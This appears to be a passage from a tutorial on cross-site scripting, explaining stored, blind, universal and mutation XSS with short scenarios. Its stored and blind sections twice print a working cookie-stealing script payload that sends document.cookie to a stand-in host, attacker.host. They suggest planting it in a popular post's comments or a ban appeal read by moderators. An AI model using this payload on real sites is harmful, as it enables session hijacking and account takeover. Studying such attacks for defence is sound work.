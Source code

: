 For stored XSS to work, we need to find a function that stays on the server, not just showing up after typing something in the URL. This can be comments, username, whatever reflects and is set permanently.

Let's say we have a really insecure social media site, where we can comment on everyone's post. Imagine that there is a post with million views and you can comment with the XSS payload, like this : 
```js
<script>var x=new Image;x.src="http://attacker.host/?"+document.cookie;</script>
```
Million accounts would be compromised, since it is STORED on the server, the only thing needed is to load the page with the post. That's it.


##### 3) Blind XSS
- Is stored, but we can't see where the payload goes to
- Usually leads to vertical privilege escalation
- Attacks pages like Contact us, Message to Moderators, Ban appeals etc.


Let's assume we have a website, where you just got banned and you can make a ban appeal on `/appeal` endpoint, with sorry message. When the message is sent, it goes to `/check-appeals`, which we are forbidden to load, since it's for checking appeals. The mod then decides if he wants to unban you or not.

Visiting the page, you write a message, but not something like "Sorry for hacking into the mainframe", more like `<script>var x=new Image;x.src="http://attacker.host/?"+document.cookie;</script>`. (yes again this payload)

If the `check-appeals` page has poor protection against HTML/JS injection, you will get a cookie, when a mod will visit the website.

If you don't want to port forward your server, lazy to use VPS or whatever, you can use a free tool called ez.pe - https://ez.pe/
It's designed for blind XSS (but it can work for any XSS as long as it is triggered), you have your own subdomain and there are plenty of payloads to choose from, although you are free to create your own. 


##### 4) Universal XSS
- Happens in the browser (and extensions), not website
- Waaay bigger impact than website-based XSS's
- Rare

This type of XSS happens in the browser, not the website itself. The impact is huge, since it doesn't need any vulnerable website, just the exploitation of a browser is enough. It can also exploit more websites than just one, so more accounts you should worry about.

An excellent report about UXSS in Safari browser is here : https://www.ryanpickren.com/safari-uxss


##### 5) Mutation XSS
- Exploits HTML sanitizers, like DOMPurify
- 3 conditions : 
	- innerHTML – innerHTML is a property that can be used to dynamically generate HTML content.
	- DOM - Document Object Model, is a programming interface for HTML and XML documents.
	- HTML sanitizer – HTML sanitizers, on the other hand, ensure that HTML data does not contain harmful content by blacklisting certain tags and sanitizing the DOM tree.
